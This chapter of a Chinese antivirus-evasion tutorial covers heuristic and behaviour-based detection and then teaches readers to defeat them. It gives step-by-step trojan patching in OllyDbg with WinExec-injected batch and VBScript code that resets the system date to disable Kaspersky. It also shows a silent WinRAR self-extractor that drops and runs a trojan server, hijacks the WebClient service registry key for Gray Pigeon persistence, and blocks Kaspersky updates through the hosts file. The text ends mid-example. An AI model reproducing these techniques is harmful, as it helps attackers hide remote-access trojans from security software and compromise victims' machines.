代码重定向是指执行中从代码节中跳出的情况，鉴于其特殊性，被一些病毒加以利用，因为这样做就不用去动文件的入口点，从而使行踪更为隐蔽。但是鉴于技术限制等原因，病毒往往都会选择在程序入口点附近跳出来，所以使得杀毒软件很容易判断出来它的可疑行为，因为在程序刚刚开始的入口点就从主代码节跳到别的节是有悖于常理的，因此启发式分析往往将这种行为定义为“非常可疑”。

- **3. 代码从最后一个区段开始执行**
大家都知道，PE文件格式有一个很重要的优点，它将不同功能的区域在逻辑上分为了不同的区段。默认情况下，链接程序会将所有可执行的目标代码放入.text区段，但是从PE文件结构的定义上来看，存在多个代码区段是完全可能的，但是没必要这么做，几乎所有的编译器也不会这样去做，因此绝大多数正常的Windows应用程序不会出现这样的结构。由于病毒很难利用程序原有的代码区段，所以它们的普遍做法是将病毒体附加于程序的最后一个区段，并更改程序入口点指向新区段。所以说如果PE映像的入口点不是指向代码区段，那么它就非常可疑了。

- **4. 多个PE头部**
这个应该很容易理解，多个PE头部就代表着多个执行体，因为PE头部包含着许多未被使用以及取值的固定区域，这会使黑客利用其中的资源做更多的事情。

- **5. 可疑的代码区段名称**
如果程序的原有空隙不足以有效地插入病毒体，那么病毒就会试图增加一个新的区段，由于区段中包含病毒体，所以这个新加入的区段必须获取对程序的控制。因此如果发现一个可疑的代码节获取了对程序的控制，那么这种情况肯定是可疑的。

其它与免杀关系不密切的启发性标志，这里就不做详细介绍了，大家可以简单地了解一下：

- 6. PE可选头部有效尺寸的值不正确
- 7. 区段之间的“间隙”：病毒在向感染文件加入新区段之前，会将文件尺寸对齐到最近的 FileAlignment 整数倍，但是却不会修改最后一个区段的头部以反映这个差异。所以这种漏洞很容易被启发式扫描所识别。
- 8. 可能的头部感染
- 9. 来自 kernel32.dll 的基于序号的可疑导入表项
- 10. 多个 Windows 程序头部和可疑的 kernel32.dll 导入表项
- 11. 可疑的重定位信息
- 12. 内核查询：如果代码中有指向 kernel32.dll 或 VMM 内存区域的硬编码指针，则被认为是可疑的，虽然计算机病毒或漏洞利用程序会用到 GetProcAddress() 功能，但是在正常的应用程序中直接访问 kernel32.dll 头部的内存区域是反常的。
- 13. 内核的完整性
- 14. 把区段装入到 VMM 的地址空间

关于启发性标志的介绍就到此为止了，由于涉及面非常广泛，所以里面涉及的具体知识目前笔者也没完全掌握，各位初学的朋友看完后不要灰心。但是不得不说的是，通过研究启发式扫描的启发性标志确实可以学到一些很有趣的知识，但是也不要走马观花，尽可能的深入了解每一个标志位的含义更有利于我们免杀技术以及病毒编译技术的提高。

### 8.3 针对启发式杀毒的免杀方法

对于启发式扫描的免杀方法不管是网上还是某些书籍上，所提供的方法仍然免不了特征码免杀这个俗套，说白了其实就是特征码免杀而已，只不过是挂羊头卖狗肉罢了。那么我们应该怎样做才能避免走这条没有创意的路线呢？

根据上一节所讲的内容，可以初步总结出如果使用纯启发式扫描的话，那么就不可能精确地给出病毒名，例如它可以识别出“疑似木马”，但是它绝对不会精确到识别出病毒的名字，例如“感染的木马程序 Trojan-Dropper.BAT.Dmenu.1”。但是现实情况是我们使用启发式扫描比较成熟的杀毒产品时，它所查出的绝大部分病毒都是带有精确病毒名称的，这就说明它们除了使用启发式扫描器以外，还使用了常规扫描器。接着往下看，大家想一想，难道启发式扫描本身就没有特征码吗？例如“一个正常的软件中不应该包含格式化所有磁盘的指令”这条规则，它是否存在特征码呢？当然，它的特征码就是那条格式化磁盘的指令，我们可以将它删除，或是将其变形。这能说明什么？这说明启发式扫描确实可以使用传统的特征码免杀方法躲过。但是这却不是全部，我们要掌握的是怎样避免处理过的木马再次被启发式扫描器所查杀，但是怎么可能出现这种情况呢？如果你有疑问，你可以试着用一些“生猛”的方法来修改一个正常的文件试试，例如修改文件头，入口点加1或是添加花指令等等，如果你修改的面积很大，就会导致它被启发式扫描器所查杀。因此说我们在修改针对普通扫描器的特征码时，还会不经意地制造出针对启发式扫描器的“特征码”，而我们本节所讲的内容就是教大家如何避免这些事情的发生。

#### 8.3.1 针对启发式扫描器的免杀工作

如果要定位启发式扫描，首先要做的就是将杀毒软件的“启发式扫描级别”设置为最高，这样有利于免杀之后的木马存活更长的时间。针对NOD32的启发式扫描器，它的特征码全部都在“.code”区段上，“.rdata”区段中的则完全没有用，所以我们只需要对此区段进行定位即可，如图8.1所示。如果凑巧这个木马没有“.code”区段，那么也可以对其进行全文件定位。在定位之前还要记得将其填充方向由“正向”改为“反向”，如图8.2所示。对于其它启发式扫描的杀毒软件则不需这样。关于特征码的具体定位我就不再多讲了，与普通的免杀定位一模一样。而修改则可以多多使用例如上下互换或跳转法修改。


图8.1 | 图8.2

#### 8.3.2 怎样对抗启发式扫描

关于启发式扫描的对抗，完全是一些经验之谈，每个人的理解可能会稍有差异，但是总体思想是一样的，都是根据启发性标志组织出相应的方法躲过。因此我带领大家从启发性标志开始，逐渐攻破启发式扫描的堡垒。

- **1. 区段头部的可疑属性**：这个对于我们来说意义不大，对于区段头属性的更改可以使用PEditor来做，不过这对于免杀来说没有什么意义。
- **2. 可疑的代码重定位**：在免杀修改时，一定要在“.text”或“CODE”段写入我们的指令，千万不要将指令写到其他的区段里。这些事项我们只需要在查找“00”区域时注意就可以了。
- **3. 代码从最后一个区段开始执行**：免杀的加花、逆向工程添加功能等操作都会带来类似的问题，而且往往为了寻找上的方便，我们有时甚至会新加一个区段，然后将相应的指令反汇编到那里。但是很不幸的是往往所谓的“新加的一个区段”恰恰就属于文件的最后一个区段，这正好使我们踩到了地雷上。所以我们以后一定要养成手动加花的习惯，因为花指令添加器只会不负责地新添加一个段后，然后再将其花指令写入，这样做是为了使编写类似程序变得更简单，但是却害苦了它的使用者们。另外，我们要学会从文件头处写入跳转指令，跳转到我们的花指令处，然后再跳回去（类似于加头去头的操作），这样可避免可疑的入口点增加启发性标志的权值。
- **4. 多个PE头部**：这个我们免杀涉及不到，而且已经有个别的捆绑器可以避免重复出现文件头了。
- **5. 可疑的代码区段名称**：这一般出现在添加新区段的操作上，添加新区段本身不会严重到使启发式扫描器报毒，但是如果你再将这个区段名起得比较个性，例如“A1Pass”，或者甚至是中文的话，那么这个文件可就危险了。

对我们影响比较大的基本上就是这些了，如果各位读者在修改特征码时注意以上事项，就会在最大程度下避免被启发式扫描器查杀。当然，对于启发式扫描来说，我们不可能完全屏蔽所有启发性标志，只能尽量减少被查杀的几率，所以更多的屏蔽方法还有待大家一起研究。

### 8.4 主动防御的原理

主动防御是08年安全界的一个主流话题，各大杀毒软件厂商也都或多或少的在产品中增加了主动防御功能，使得杀毒软件厂商终于得以在今年使自己真正变被动为主动了，那么主动防御究竟会对黑客们产生怎样的影响呢？主动防御首先会导致所有传统后门、木马、初次安装以及进行相关操作时会被最大限度地暴露，用户可以更容易地知晓自己所面临的威胁。由此引发了一个不可避免的问题，即不管这些恶意程序功能再实用，隐藏性再好，只要它安装或使用时导致主动防御报警，就会使这一切功亏一篑。因此，主动防御已经成为目前免杀技术最大的一个障碍了，但是作为一个免杀爱好者，我们一定要突破这种限制！这是一种乐趣，不是吗？

#### 8.4.1 初探主动防御

首先我们不得不弄清主动防御的思想以及基本概念，下面我带领各位读者去具体地了解一下主动防御。现在我们需要搞清楚的是，本来已经免杀的木马为什么又会被主动防御所拦截呢？这就要从主动防御所采用的思想逐渐剖析了。

我们都知道，木马犹如一颗想要侵犯他人领地的核弹，以前杀毒软件的做法是在它进入领地时会检测它发射的无线电波，一般情况下要等到核弹将近爆炸时才能检查到它的异常，从而发射另外一个拦截导弹将其毁灭，幸运的话也许不会伤及平民。但是以前的杀毒软件并不能将所有的核弹都识别出来，它有时也许会将其当成一架可疑的客机，要等待其降落（加载到内存）后再做进一步检查。如果这个所谓的客机成功降落后，必然就会引起严重的后果，此时杀毒软件才会确定它原来是颗核弹，所以它能做的也只剩下努力找到放射源并最大限度地消除核辐射了。

自从拥有了主动防御，这种情况改变了，这种雷达可以通过检测入境飞行物的尾焰热度以及飞行速度与飞行路线就能大体判定来犯者的目的，再配合传统的识别技术，就可以提早发现来犯者的真实身份，并在其有所作为之前将其毁灭掉。通过上面的例子不难理解，所谓的主动防御就是检测木马行为的一种技术。通常情况下，木马运行后会执行一些不寻常的操作，例如它需要将自身注入到系统进程中来躲避防火墙的拦截，但是这种注入行为并不是一个正常软件所应拥有的行为，因此它是可疑的。一个普通的软件不会随意向系统加载新的驱动程序，不会将自己注册为自动运行的服务，不会试图挂钩全局钩子等等，如果这些行为集中体现在某一个未知程序中的话，那么这个程序就非常可疑了。杀毒软件之所以能做到这些，就是因为现在的主动防御已经毅然跃进Ring0层，并且勾住了SSDT。从此内核层不再是病毒与木马的专有地盘，杀毒软件也进来了，它成功的将病毒木马拉在同一级别上竞争，因此胜利的天平渐渐地偏向了杀毒软件一方。

> **小知识：什么是SSDT？**
> 答：所谓的SSDT（System Service Dispatch Table）也就是“系统服务调度表”的意思，它存放着所有内核导出函数（内核API）的地址，而我们编程时所用的几十个API函数都是由位于SSDT中几百个原生API（Native API）以不同的封装形式派生出来的。因此也可以说控制了SSDT，就基本上控制了一切！

#### 8.4.2 主动防御的原理

主动防御根据软件运行的不同行为共分为三层，如图8.3（来源于瑞星）所示，它们分别是：

- 资源访问规则控制层（HIPS）
- 监控扫描层
- 行为分析层


其中的第一层（资源访问规则控制层）称之为HIPS，这是因为这一层次的控制内容与国际上比较热的HIPS软件相似。资源访问规则是主动防御的第一层，也是主动防御其他层次的基石。这一层主要通过对系统资源的规则化控制，从而阻止病毒、木马等恶意程序对注册表、文件、特定系统API的调用以及进程的启动等资源的使用，从而达到抵御部分未知病毒的目的。这个层次大概在2003年就已经被部分杀毒软件所采用，当时的名称大多都将其称之为“文件防火墙”，只不过当时的“文件防火墙”所监控的项目稍少一些而已。

主动防御的第二层为监控扫描层，这一层通过监控如文件、引导区、邮件、脚本的访问，并使用拦截的文件内存、引导区内容进行威胁扫描识别，籍此来处理经过分析的恶意代码。很多主流杀毒软件中的邮件反病毒、反垃圾监控以及网页监控、文件监控都属于这一层，这一层主要解决邮件病毒、网页挂马等问题。

最后的行为分析层则是现在主动防御的精髓所在，正是因为有了这一层，才有了现在这么强大的主动防御。这一层主要的任务就是分析以上各个层次交融后的一种关系，或是说一种规律。通过这种关系来判定正监控的程序是否有可疑行为，有多少可疑行为，并籍此试图作出自动判定或是提示用户选择的处理方案。

但是作为一个免杀爱好者来讲，我们有必要了解其中个别监控项目的具体细节，以便于我们作出更具有针对性的免杀工作。主动防御的详细项目如图8.4（来源于瑞星）所示，而我们有必要详细了解的项目如下：

- 远程代码注入
- 注册表监控
- 核心态监控
- 文件监控
- 其他监控（全局钩子安装，终止进程等）
- 各模块的交融与逻辑判断关系

| 类别 | 监控项 |
|---|---|
| 资源访问规则控制（HIPS） | 系统动作、注册表、关键进程保护、系统文件保护、限制启动子程序、限制全局钩子、限制加载驱动、防DLL注入、防写内存、防劫持远程线程、防止终止进程、防止模拟发送消息、防止模拟按键 |
| 资源访问扫描（传统监控） | 文件监控、邮件监控、网页监控 |
| 智能分析 | （综合分析） |

图8.4

##### （1）远程代码注入监控原理

远程代码注入也就是所谓的进程注入，几乎所有的杀毒软件都采用了SSDT Hook或Inline Hook这两个挂钩技术对这种注入行为进行底层监控，但是针对每个杀毒软件的不同，他们所采用技术的具体细节又有一些差异，这些差异主要体现在挂钩的API不同。

然而针对这些不同的地方，对于我们读者来说用处可能不是很大，但是为了知识的完整性，我还是决定写出来给部分读者做一个参考。安全软件ZoneAlarm Pro所挂钩的API为NtOpenProcess，而其他安全软件则挂钩了以下API：

- NtCreateThread（Ring3下对应为CreateRemoteThread）
- NtWriteVirtualMemory（Ring3下对应的WriteProcessMemory）
- NtSetContextThread（Ring3下对应的SetContextThread）

> **小知识：神秘的Rootkit技术。**
> Rootkit技术的发展由浅入深大致可分为5个层次，每一个新的层次诞生都代表着更接近于底层，代表着具有更大的能力，同时还代表着更差的稳定性以及更高的技术要求。
> Hook技术的第一个层次就是目前已经接近于大众化的SSDT Hook了。Windows下的应用程序就是由一大堆API组合而成的，应用程序通过API接口而间接地控制操作系统，这些已公开的API自然也就是我们所谓的用户态API了。通过上面的“小知识：什么是SSDT？”可知，其实我们所调用的所有API只不过是为了控制最终那几百个原生API而已，但是只有原生API才真正拥有控制系统以及硬件的权限，而这些原生API的调用地址恰恰就位于SSDT中。因此如果我们将其中的原生API调用地址做一些手脚呢？例如将其中列文件名的原生API地址更改为我们所编写的第三方模块地址。这样如果用户执行查看文件操作后就会调用我们的模块，然后我们再让模块去调用真正具有列文件名功能的原生态API，并将其返回信息做一些小手脚，例如过滤某个我们不想让别人知道的文件名，这样在系统接到经过我们篡改的返回信息后，自然就“看”不到我们要隐藏的文件了，这就是所谓的SSDT Hook。
> 第二个层次是 Shadow SSDT Hook（KeServiceDescriptorTableShadow），Shadow SSDT 也称之为 SSDT 映射，它主要是提供一些基于图形界面（GUI）下的系统服务函数，并保存了一份与 SSDT 相同的服务列表，而且非常少有文献提及它，因此它凭借与 SSDT 几乎相同的功能成了一代新宠。
> 第三个层次就是我们上面提到的 Inline Hook，Inline Hook 最终思想是直接替换原生 API，而不是在 SSDT 上做手脚的小伎俩了。它是比 Shadow SSDT Hook 更接近底层的一种看似疯狂的技术，目前已经成为 Rootkit 的主流技术。
> 第四第五层次分别为 FSD Hook 与 FSD Inline Hook，所谓的 FSD（File System Driver）就是“文件系统驱动”，他是 Windows 系统中开放给编程人员最深入的一块区域，具体细节鉴于篇幅原因就不再详细介绍了。

##### （2）注册表监控原理

注册表监控的原理大多仍然是利用 SSDT Hook 或 Inline Hook 技术，以此来拦截应用程序操作注册表敏感区域的操作。其中 360 安全卫士所用的方法有些特别，它是通过间间隔来不断的枚举相关键值，然后自行比较是否被修改。

##### （3）核心态监控

所谓的核心态监控就是指对驱动安装与访问物理内存等行为的监控，主要通过挂钩驱动加载与物理内存访问相关的函数所实现。并且鉴于 Windows 的特性，一般还会监控相关注册表键值的写入，籍此控制驱动的安装。

##### （4）文件监控

文件监控是通过挂钩 SSDT Hook 与 IRP Hook 并修改驱动分发函数例程表中的地址来达到文件过滤的，另外某些安全软件对于在 Windows 系统目录下创建可执行文件，以及木马释放文件会做比较严密的监控，只要发现相应操作就会提示 Hidden Install。

##### （5）其他监控

一般情况下某些安全软件还会监控全局钩子的安装，籍此控制木马对用户产生的影响。因为像键盘密码获取等技术都要靠挂钩全局钩子来实现的。

##### （6）各模块的交融与逻辑判断关系

关于主动防御，我认为利用得比较成功的就是卡巴斯基了，特别是它的 KIS（互联网安全套装）更是如此，因此我们就以卡巴斯基为蓝本来分析一下主动防御。

首先我们要对“各模块的交融”做一个澄清，因为很明显他们并不是一个整体，而且也是分开工作的，事实上它们之间甚至没有绝对的联系。这从它们的白名单上就能看出来，因为他们每一个模块都是独立工作的。其次就是它的逻辑判断关系，如图 8.5 所示，这是一个几乎没有配置过的防火墙，我们通过图 8.5 可知，防火墙是有很多预定义规则的。主动防御也是同样，只不过它的预定义规则要么很少，不够明显，要么就是隐藏的，用户不可参与的（例如卡巴斯基的程序活动分析器）。而这种规则，就是各个主动防御模块的中心，主动防御组件本身只不过是依令行事的“御猫捕头”罢了。所以采用这种模式对于相当大的一部分用户来说仍然不是很实用，因为他们大多数不知道什么样的行为应该放过，而什么样的行为应该阻止。因而主动防御从某些特点上来说仍然具有很大的局限性。

因此只提供了一些比较基本的信息，这些资料虽然不足以帮助我们突破主动防御（事实上几乎任何资料都不可能做到这点），但是绝对可以助我们一臂之力。

### 8.5 针对主动防御的免杀方法

主动防御不愧为一个令人头痛的问题，我一直寻找门槛比较低且有效的突破方法。但可惜的是，我一直到现在也没有找到一个切实可行的方法来突破主动防御系列。网上的几乎都是利用 SSDT 脱钩等 Ring0 层的编程方式来解决的，但是我想阅读本书的读者对于 Rootkit 编程的了解一定不会很多，因此我所教给大家的只是一些针对个别杀毒软件主动防御的小伎俩。这个消息虽然有些令人沮丧，但是我只想告诉大家一个事实：有的技术注定是要有一定的门槛的。我们读者作为入门者，在知识没有积累到一定程度时，想要达到相应的目的就只能选择利用别人的程序或利用并不是十分有效的方法，但是这毕竟也是一种方法。因此如果你想探求事情的本质，那么你需要做的就是努力学习更多的知识。

#### 8.5.1 剖析主动防御的弱点

关于用户级别下的常规方法，对于主动防御来说几乎都没有威胁，而 Ring0 下的脱钩技术又不是我们可以控制的，因此对于我们来说比较现实的方法就是采用迂回战术。例如我们可以利用杀毒软件的一些特性从而使杀毒软件失效，例如卡巴斯基！我们只需要对系统的时间做一些手脚就会使卡巴斯基暂时失效。整个杀毒软件失效后，那么主动防御也就不存在了。另外我们可以根据个别主动防御的特征来制定相应的免杀方法，例如瑞星的主动防御就对特征码的依赖比较大，它的主动防御有自己的一套独特的特征码。因此我们只要修改了这些特征码，对于瑞星来说必然就会是一个比较大的打击。当然还有其他的一些小技巧也可以使我们躲过主动防御。我们打个比方，美国的导弹防御系统可谓是家喻户晓，它的原理就与主动防御差不多，它采取主动的方式来拦截入侵的洲际导弹。但是最近科学家们发现，导弹防御系统对于老式的导弹或是火箭弹的防御力几乎为零，因此这便成为了它致命的弊端。主动防御也是如此，它只对个别特殊系统进程的远程注入以及一些相对来说比较高级的木马入驻行为敏感，而对于一些比较低级的动作则不敏感。如果主动防御对于比较低级的动作也敏感的话，那就代表着用户将面临每启动一个陌生程序都要询问一次局面！而且系统负担也将随之增大许多。因此，这便成了一个突破口，那么我们究竟应该怎样利用上面这些杀毒软件的弱点来“曲线救国”呢？

#### 8.5.2 修改时间攻破卡巴斯基

既然是修改时间就可以突破卡巴的主动防御，那么我们就好办了！有些读者可能会想到先用 WinRAR 将木马与修改时间的脚本文件捆绑在一起，然后再将其生成为自解压文件，并保证木马执行前先执行脚本来修改系统时间致使卡巴斯基失效。但是作为一名阅读到此的读者来说，难道我们就不能将其做得更完美些吗？因此我的思路是通过逆向工程使木马本身具有修改系统时间的功能，但是我们又怎样才能做到完美地执行这一工作呢？首先我们要给程序添加一段具有执行多条 DOS 命令功能的指令，然后要用这些命令生成一个新的 VBS 脚本文件与一个批处理文件，最后再跳回程序执行原有的木马代码。下面我们一步一步地来，不知道大家是否还记得“6.3.2 由汇编语言想到的——通过反汇编添加任意功能”所讲到的那个“WinExec”函数原型？为了方便大家理解，这里我再次为大家列了出来：

```c
UINT WinExec(
    LPCSTR lpCmdLine,
    UINT uCmdShow
);
```

现在我们要先编写一个 VBS 脚本“hide.vbs”，它的作用是隐藏运行位于 C:\ 下的批处理“data.bat”，等待 15 秒后并清扫痕迹，以免被发现：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
Set WshShell = CreateObject("Wscript.Shell")
WshShell.run "cmd /c c:\data.bat", vbhide
WScript.Sleep 15000
Set f1 = fso.GetFile("c:\hide.vbs")
Set f2 = fso.GetFile("c:\data.bat")
f1.Delete
f2.Delete
```

然后我们再编写一个批处理“data.bat”，它的作用是将当前日期保存后再将日期改为 1999-9-9，过一段时间后再将日期复原：

```bat
set original=%date%
date 1999-9-9
ping -n 10 127.0.0.1
date %original%
```

但是我们发现，这似乎需要很多条 DOS 命令才能完成这些。如果我们采用逆向工程完成这些功能的话，是不会十分繁琐呢？那是自然。但是如果我们使用连接符“&”将这些命令变成一条命令执行的话，情况应该就会好很多。下面我们先将以上内容变成 DOS 语句：

```bat
Echo set original=%date% > c:\data.bat
Echo date 1999-9-9 >> c:\data.bat
Echo ping -n 10 127.0.0.1 >> c:\data.bat
Echo date %original% >> c:\data.bat

Echo Set fso = CreateObject("Scripting.FileSystemObject") > c:\hide.vbs
Echo Set WshShell = CreateObject("Wscript.Shell") >> c:\hide.vbs
Echo WshShell.run "cmd /c c:\data.bat", vbhide >> c:\hide.vbs
Echo WScript.Sleep 15000 >> c:\hide.vbs
Echo Set f1 = fso.GetFile("c:\hide.vbs") >> c:\hide.vbs
Echo Set f2 = fso.GetFile("c:\data.bat") >> c:\hide.vbs
Echo f1.Delete >> c:\hide.vbs
Echo f2.Delete >> c:\hide.vbs
```

`c:\hide.vbs`

第一个语句块的作用是生成 data.bat 批处理，第二个语句块是生成 hide.vbs 脚本文件，最后一个命令是执行脚本 hide.vbs。但是很不幸，我们在通过逆向工程添加这些命令时，一次只能执行少于 218 个字节的命令，多出的部分系统会自动抛弃，因此我们将其组合为数组字节数少于 218 个字节的 DOS 命令，组合后如下所示：

- 第一组（162 字节）：`Cmd /c Echo set original=%date% > c:\data.bat & Echo date 1999-9-9 >> c:\data.bat & Echo ping -n 10 127.0.0.1 >> c:\data.bat & Echo date %original% >> c:\data.bat`
- 第二组（208 字节）：`Cmd /c Echo Set fso = CreateObject("Scripting.FileSystemObject") > c:\hide.vbs & Echo Set WshShell = CreateObject("Wscript.Shell") >> c:\hide.vbs & Echo WshShell.run "cmd /c c:\data.bat",vbhide >> c:\hide.vbs`
- 第三组（196 字节）：`Cmd /c Echo WScript.Sleep 15000 >> c:\hide.vbs & Echo Set f1 = fso.GetFile("c:\hide.vbs") >> c:\hide.vbs & Echo Set f2 = fso.GetFile("c:\data.bat") >> c:\hide.vbs & Echo f1.Delete >> c:\hide.vbs`
- 第四组（50 字节）：`Cmd /c Echo f2.Delete >> c:\hide.vbs & c:\hide.vbs`

值得注意的是各位读者在合成类似的语句时一个空格也不要弄错，否则的话就达不到预期的效果。为了方便各位读者上手实验，我已经将上面代码放到了随书附带的光盘中。有了这些我们就可以将这条 DOS 命令通过逆向工程添加到木马中了。首先用 OllyDbg 打开木马并找到一块足够大的 00 区域，我在 0046A090 处选择了两行，按快捷键【Ctrl】+【E】调出二进制编辑窗口，并将其中“保持大小”前面的勾去掉，如图 8.6 所示，然后复制上面第一组的内容，转到二进制编辑窗口后，在“ASCII”后单击右键，在弹出的菜单中选择“粘贴”即可，如图 8.7 所示。在覆盖后的隔一行处按快捷键【空格】开始汇编，按照“WinExec”函数原型与汇编调用 API 函数所遵循的 stdcall 格式，我们要先将参数 0 压栈，然后是 DOS 命令，最后是调用“WinExec”函数执行这些。如果对这部分有什么疑义请参见本书 6.3.2 节的内容。因此汇编格式就为：

```asm
push 0
push 0046A090
call WinExec
```

如图 8.8 所示。在下面空 5 行处，在 0046A14A 处再次选择两行，按快捷键【Ctrl】+【E】调出二进制编辑窗口，如图 8.9 所示，并把第二组的内容复制进去，然后重复上面的步骤，直到将这四组命令全部汇编进去。在第四组结束时，我们在后面加上一句使其跳到程序原入口的指令“jmp 00401000”，并记下这组“WinExec”函数的起始地址“0046A345”，如图 8.10 所示。

图 8.6  
图 8.7  
图 8.8  
图 8.9  
图 8.10

接下来我们找到第三组“WinExec”函数，并在后面加上“jmp 第四组‘WinExec’函数”的地址，也就是“jmp 0046A345”，然后再记下第三组“WinExec”函数的起始地址“0046A2FA”，如图 8.11 所示。用同样的方法处理第二组与第一组，最后记下第一组“WinExec”函数的起始地址“0046A134”，如图 8.12 所示。然后选中所有修改过的地方，单击右键，在弹出的菜单中选择“复制到可执行文件”→“选择”，在新窗口中再次单击右键，并选择“保存到文件”即可。接下来我们运行 PEditor 并加载我们的实验程序，将其入口点改为我们最后一个虚拟内存地址的相对虚拟地址即 0006A134，如图 8.13 所示。

图 8.11  
图 8.12  
图 8.13

当然，除此之外我们也可以使用 WinRAR 的自解压功能来制作自动释放的补丁，首先将我们的“hide.vbs”修改一下，如下所示：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
Set WshShell = CreateObject("Wscript.Shell")
WshShell.run "cmd /c c:\\data.bat", vbhide
WScript.Sleep 5000
WshShell.run "c:\\Server.exe"
Set f1 = fso.GetFile("c:\\hide.vbs")
Set f2 = fso.GetFile("c:\\data.bat")
f1.Delete
f2.Delete
```

然后将“hide.vbs”“Data.bat”与木马文件“Server.exe”用 RAR 压缩，压缩完毕后打开压缩包，如图 8.14 所示点击“注释”按钮，并写入如下内容：

```ini
；下面的注释包含自解压脚本命令
Path=c:\
SavePath
Setup=hide.vbs
Silent=1
Overwrite=1
```

接下来点击“自解压格式”选项卡，选择“添加新的自解压模块”单选框，如图 8.15 所示，点击第一个“Default.sfx”自解压模块，最后点击确定即可生成可执行压缩文件。然后我们只需再按照以前章节所讲述的方法对其进行一些处理即可投入使用了。

#### 8.5.3 通过主动防御特征码来突破瑞星主防

瑞星的主动防御比较特殊，它采取了 DNA 识别技术，当出现可能的恶意行为时会先对其进行扫描，如图 8.16 所示。因此很容易就可以推断出来，瑞星的主动防御是它自己独特的一套特征码，因此我们如果要躲过瑞星主动防御的查杀，就要先把主动防御的特征码改掉。要想定位出主动防御的特征码，必须先对瑞星进行文件与内存的免杀，在此前提下借助 Myccl 与 OllyDbg 对其特征码进行定位。其实原理非常简单，我们先用 Myccl 对其进行分块，第一次分 2-5 块即可。然后用 OllyDbg 一一载入，将发现病毒的文件留下，未发现病毒的文件删除，然后再回到 Myccl 点击“二次处理”按钮，再接着用 OllyDbg 一一载入，如此往复，直到最后定位出特征码为止。

图 8.14  
图 8.15  
图 8.16

#### 8.5.4 手工打造突破主动防御

通过前面的介绍可知，主动防御只对一些比较“高科技”的木马有反应，而对于一些过时的木马则没什么作用，这主要是因为过时的木马生命力弱且容易暴露，而且最关键的是现在已经很少有黑客使用类似的木马了。难道我们要“返璞归真”了吗？我想各位读者都不喜欢这样，因此我们可以自己打造一个行为低级而功能高级的木马出来。我们就以灰鸽子为例，首先在配置木马时要将一些功能去掉，默认配置也需要作出相应的更改。首先要更改的就是木马的安装路径，因为现在个别的主动防御已经开始紧盯系统目录，它会拦截向系统目录安装没有窗口的可执行文件，并提示 Hidden Install 威胁。因此我们最好将路径改为“C:\Program Files\Internet Explorer”或者其他带有迷惑性的目录，如图 8.17 所示。其次是要避免木马注册为系统服务或是向注册表写入键值，如图 8.18 所示。而且类似于如图 8.19 所示的“隐藏 XXXXXXX”的功能也不要勾选，因为这些 HOOK 技术一旦在木马安装时施展出来，面对强大的主动防御无异于飞蛾扑火。

现在我们已经将木马的一些多余功能去除了，成功地将我们的巡弋导弹变成了火箭弹。为了让我们的火箭弹能搭载核弹头，我们还必须对它进行一番改造。为了让我们的木马能跟随系统启动，又因为主动防御不会拦截“*.reg”文件对注册表的修改，因此我们完全可以利用这点改造一下系统中不是很重要的服务，例如“WebClient”服务。按快捷键【Win】+【R】调出运行窗口，如图 8.20 所示，在里面输入“regedit”打开注册表。依次展开“HKEY_LOCAL_MACHINE”主键下的“SYSTEM\CurrentControlSet\Services\WebClient”，双击“WebClient”，其右侧的窗口如图 8.21 所示（注：根据系统的不同而略有差异，笔者的为 Windows Vista Home Premium）。将其替换为我们木马的路径，如图 8.22 所示。

然后右键点击“WebClient”选择“导出”，保存为“*.reg”文件即可。最后将其与木马服务端压缩为 RAR 压缩包，在“自解压格式”→“高级自解压选项”中，在弹出窗口的“常规”选项卡中找到“解压路径”，在其中填上木马的安装路径；“解压后运行”中填上压缩包中服务端的名字；“解压前运行”中填写上“regedit /s 注册表文件名.reg”，填写完如图 8.23 所示。接下来切换到“模式”选项卡，安静模式选择“全部隐藏”，覆盖方式选择“覆盖所有文件”，如图 8.24 所示，点击两次确定即可在同目录下生成一个 EXE 文件，这就是我们最终的产品了。

到这里，有关于突破主动防御的知识就讲完了，不知道各位读者是否有所收获？其实要想真正突破主动防御，还是要靠底层 HOOK 技术的对抗，比较懒的方法就是使用一些本身具有突破主动防御功能的木马。

### 8.6 与杀毒软件的对抗

我一直在寻找一个不这么敏感的字眼做标题，但是我发现免杀本身就是一个与杀毒软件对抗的技术。我们在这种对抗中增长了知识，学到了更有效的思考问题的方法，并且从中获得了许多的乐趣。如果我们不拿所学到的知识办坏事的话，那么即使是使用了这个标题又何妨？我们一直在不停地寻找杀毒软件的弱点，并且每当发现一个新的“阿喀琉斯之踵”时，多数都会兴奋地告诉其他人。但是我们又怎样去使用具有更高效率的方法去挖掘呢？答案就是学习。从特征码到加壳、从改壳到花指令，这些以前似乎都不是属于免杀的东西，但是将它们结合到一起后，新的免杀技术诞生了。因此，我们为什么不从病毒与杀毒软件的对抗方法中获得一些灵感呢？病毒家族中与杀毒软件对抗的典型就是反制病毒（retrovirus），先让我们一起看看攻击性反制病毒都是通过什么手段与杀毒软件对抗的：

- 关闭杀毒软件的进程，并杀掉内存中或硬盘上的反病毒程序。
- 误导或关闭行为阻断产品。
- 误导或关闭个人防火墙。
- 删除完整性检查的数据库文件。
- 修改完整性检查的数据库文件。（例如 Spanska 家族中的一款病毒就能以打补丁的形式攻击 TBSCAN 的 ANTI-VIR.DAT 文件）
- 通过反病毒软件执行病毒代码。
- 在防病毒的数据库中放置“特洛伊木马”，会在扫描器扫描时被激活。（例如有种 Anti-AVP 病毒，它会向 AVP 的数据库文件中插入一个新的伪造 AVP 数据库，从而使得 AVP 将 Boza 病毒检测为 Bizatch 病毒。还有一种类似的攻击会让 AVP 检测不到任何病毒，却杀掉内存或硬盘上的其他反病毒软件。）
- 破坏正在运行当中的反病毒软件。
- 从文件中删除反病毒程序留下的完整性标记。
- 攻击常用的 CRC 校验法。
- 阻止被感染的系统连接到反病毒产品的网站，不允许它们下载更新。
- 攻击除反病毒产品外的病毒分析产品。

通过以上病毒与杀毒软件对抗的行为，相信各位读者都能选中一些自己中意的对抗方法。但是笔者认为，有一些类似于结束杀毒软件进程等过于明显的利用方法应该摒弃，而且有些直接对反病毒软件数据库进行操作的复杂方法目前也还未得到广泛的应用。因此，我们可以利用的也就剩下了例如阻止反病毒产品更新等易于操作的技术。那么怎样才能阻止杀毒软件更新呢？我们以卡巴斯基为例，只要将杀毒软件更新时链接的网址加入操作系统的 hosts 文件中即可。一般情况下，hosts 文件所在的路径为 “C:\Windows\System32\drivers\etc”，我们找到 hosts 文件后用记事本打开它，并填入以下内容：

```text
127.0.0.1    localhost
127.0.0.1    dnl-us0.kaspersky-labs.com
